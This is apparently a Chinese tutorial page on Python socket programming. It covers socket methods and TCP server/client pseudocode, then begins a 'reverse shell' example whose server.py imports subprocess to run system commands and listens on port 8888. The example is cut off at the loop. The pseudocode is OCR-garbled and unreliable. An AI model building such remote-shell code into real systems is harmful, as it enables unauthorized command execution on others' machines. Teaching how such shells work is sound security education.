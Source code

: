 



**套接字对象的方法：**

服务端套接字函数：

<img src="http://image.xpshuai.cn/socket01%20.png"></img>

公共用途套接字函数：

<img src="http://image.xpshuai.cn/socket02.png"></img>



创建连接之后要关闭



###### 实例:

```bash
## 1.创建-个TCP服务器
SS. = socket()	#创建服务器套接字
ss.bind()	#把地址绑定到套接字上
s.listen()	#监听连接
inf loop;	#服务器无限循环
	CS.= ss.accept()	#接受客户端连接
cmmon loop;	#通信循环
	s.recy0/cs.send0	#对话(接受与发送)
cs.close0	#关闭客户端套接字


## 2、创建一个TCP客户端
cs.socket()	#创建客户端套接字
cs.connect()	#尝试连接套接字
common loop:	#通信循环
	cs.recx0/cs.send()	#对话(接受与发送)
cs.close()	#关闭客户端套接字

```







**反弹Shell：**

在客户端获取服务端的shell

1.获取Linux的shell：

server.py

```python
"""
反弹shell
"""
import socket
from subprocess import Popen,PIPE     # 执行系统命令

HOST = ''   # 如果是本机最为服务端，地址可以不用填写
PORT = 8888
BUFSIZE = 1024
ADDR = (HOST,PORT)
tcp_server = socket.socket()   # type默认是tcp
tcp_server.bind(ADDR)
tcp_server.listen(5)
print("开始监听")

while True:
```